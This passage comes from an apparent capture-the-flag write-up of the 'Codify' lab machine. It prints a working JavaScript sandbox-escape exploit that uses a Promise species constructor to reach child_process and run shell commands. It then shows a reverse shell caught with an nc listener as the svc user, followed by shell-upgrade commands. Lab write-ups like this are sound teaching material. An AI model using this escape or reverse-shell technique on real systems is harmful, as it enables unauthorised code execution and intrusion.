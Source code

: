 This vulnerability is in the `Promise` handler:

```
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('touch pwned'); }
            )
        }
    }
};
p.then();

```

It is the same as the previous one, though it returns `[object Object]`. Changing it to `ping` works here as well.

### Shell

I’ll update my payload to a simple [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw), and start `nc` listening on the same port:

![image-20240404092743068](https://0xdf.gitlab.io/img/image-20240404092743068.png)

On sending the code, the site hangs, but there’s a connection at `nc` with a shell as the svc user:

```
oxdf@hacky$ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.239 35468
bash: cannot set terminal process group (1264): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$

```

I’ll upgrade my shell using the [standard trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```
svc@codify:~$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
svc@codify:~$ ^Z
[1]+  Stopped                 nc -lvnp 443
oxdf@hacky$ stty raw -echo; fg
nc -lvnp 443
            reset
svc@codify:~$

```
